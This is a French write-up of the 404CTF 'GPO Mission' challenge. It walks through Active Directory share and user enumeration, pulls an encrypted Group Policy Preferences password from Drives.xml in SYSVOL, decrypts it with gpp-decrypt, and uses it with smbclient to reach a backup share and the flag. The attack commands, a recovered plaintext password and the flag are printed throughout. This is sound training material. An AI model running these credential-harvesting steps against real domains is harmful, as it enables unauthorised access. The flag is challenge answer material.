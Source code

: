 # The GPO Mission
``Facile``

``HF47``
> Dissimulée dans la mémoire d’un ancien module de commandement, une directive oubliée continue d’émettre ses signaux. Ce vestige d’une politique révolue renferme des fragments sensibles laissés à découvert, figés dans une configuration que plus personne ne surveille. Saurez-vous découvrir l’héritage de cette autorité fantôme ?

``51.89.229.210``

Identifiants de connexion:

``Nom d'utilisateur: pomme62092_404Player``

``Mot de passe: <password>``

En voyant le titre du challenge, j'ai directement pensé à [Get-GPPPassword.py](https://github.com/fortra/impacket/blob/master/examples/Get-GPPPassword.py)
pour trouver des mots de passe dans les préférences de stratégie de groupe, mais ça n'a pas marché. Je suis sûr qu'il y a un lien avec ces stratégies de groupe.

Article expliquant l'exploitation : https://podalirius.net/fr/articles/exploiting-windows-group-policy-preferences/

```
└─$ Get-GPPPassword.py 'ctfcorp.local'/'pomme62092_404Player':'<password>'@51.89.229.210
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Listing shares...
  - ADMIN$
  - Backups
  - C$
  - IPC$
  - NETLOGON
  - SYSVOL

[*] Searching *.xml files...

```

En tout cas on sait qu'il y a un share Backups que je ne peux pas lire avec mon compte 404CTF, ainsi que trois utilisateurs.

```
nxc smb 51.89.229.210 -u 'pomme62092_404Player' -p '<password>'


SMB         51.89.229.210   445    DC1              maintenance_svc               2025-05-05 16:04:03 0       Compte de maintenance système 
SMB         51.89.229.210   445    DC1              backup_reader                 2025-05-05 16:04:03 0       Compte de lecture des backups 
SMB         51.89.229.210   445    DC1              hidden_admin                  2025-05-05 16:04:03 0       Compte administrateur caché 
```
J'imagine qu'il faudra trouver le mot de passe de backup_reader pour pouvoir se connecter sur Backups avec.

En fouillant un peu dans SYSVOL (même méthodologie), je trouve plusieurs fichiers .xml, mais un va être particulièrement intéressant.

```
smb: \ctfcorp.local\Policies\{5F47AAF6-4BD4-4070-AB47-137BD0C3AC48}\User\Preferences\Drives\> ls
  .                                   D        0  Mon May  5 17:58:11 2025
  ..                                  D        0  Mon May  5 17:58:11 2025
  Drives.xml                          A      565  Mon May  5 17:58:11 2025



<Drives clsid="{8FDDCC1A-0C3C-43cd-A6B4-71A6DF20DA8C}">
<Drive clsid="{935D1B74-9CB8-4e3c-9914-7DD559B7A417}" name="Z:" status="Z:" image="0" changed="2024-01-15 08:30:21" uid="{12345678-90AB-CDEF-1234-567890ABCDEF}">
<Properties action="U" thisDrive="SHOW" allDrives="SHOW" userName="CTFCORP\backup_reader" password="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" path="\\DC1\Backups" label="Backups" persistent="0" useLetter="1" letter="Z"/>
</Drive>
</Drives>
```
Il y a un mot de passe dedans !

On peut le déchiffrer de plein de manières différentes (cf article), par exemple avec gpp-decrypt

```
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18

```

On peut alors se connecter sur Backup et récupérer un fichier flag.txt.

```
smbclient //51.89.229.210/Backups -U 'backup_reader%GPPstillStandingStrong2k18'

smb: \>get system_backup.txt 
```

404CTF{GPP_Pr3f3r3nc3s_4r3_D4ng3r0us!}